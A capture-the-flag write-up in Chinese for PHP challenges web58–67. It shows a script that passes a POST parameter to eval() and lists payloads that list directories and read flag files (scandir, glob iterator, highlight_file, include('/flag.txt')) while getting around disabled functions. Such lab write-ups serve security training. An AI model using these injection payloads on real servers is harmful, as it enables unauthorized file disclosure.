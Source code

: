 ```
```

## disable_functions

### web58

```php
</php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

payload:

```php
读取文件路径
print_r(scandir(dirname('__FILE__')));
var_dump(scandir('./'));
$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");} //glob协议
$a=opendir("./"); while (($file = readdir($a)) !== false){echo $file . "<br>"; };
$a=scandir('./');foreach($a as $value){echo $value." ";}
```

```php
读取文件内容
show_source("flag.php");
highlight_file("flag.php");
echo file_get_contents("flag.php");
var_dump(file("flag.php")); //file将整个文件读入数组
```

### web59-65

这些题flag都在当前目录下，先查看文件路径

`print_r(scandir('./'));`

然后读取文件内容

`highlight_file("flag.php");`

### web66-67

`var_dump(scandir('/'))`

发现flag在根目录，flag.txt

直接包含就行了

```php
//下面是payload
c=include('/flag.txt');
c=require('/flag.txt');
c=require_once('/flag.txt');
c=highlight_file('/flag.txt');
```
